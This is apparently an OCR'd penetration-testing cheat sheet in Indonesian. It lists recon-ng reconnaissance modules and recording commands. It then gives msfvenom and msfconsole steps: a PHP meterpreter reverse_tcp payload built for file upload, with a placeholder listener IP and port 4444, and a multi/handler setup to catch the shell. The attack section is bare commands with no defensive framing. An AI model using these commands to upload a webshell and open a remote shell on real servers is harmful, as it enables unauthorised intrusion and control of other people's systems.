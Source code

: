 Module Interesting

```
discovery/info_disclosure/interesting_files
```

Module Web

```
recon/domains-hosts/builtwith
recon/domains-hosts/google_site_web 
```

Record

```sh
script record PATH
```

```sh
script record stop
```

Menjalankan Record

```sh
./recon-ng -r PATH
```

Menyimpan output menggunakan spool

```sh
spool start
```

```sh
spool stop
```

## Msfvenom & Msfconsole

File Upload

```sh
msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=4444 raw
```

Masuk Msfconsole

```sh
msfconsole
```

```sh
use exploit/multi/handler
```

```sh
set payload php/meterpreter/reverse_tcp
```

```sh
set lhost <IP>
```

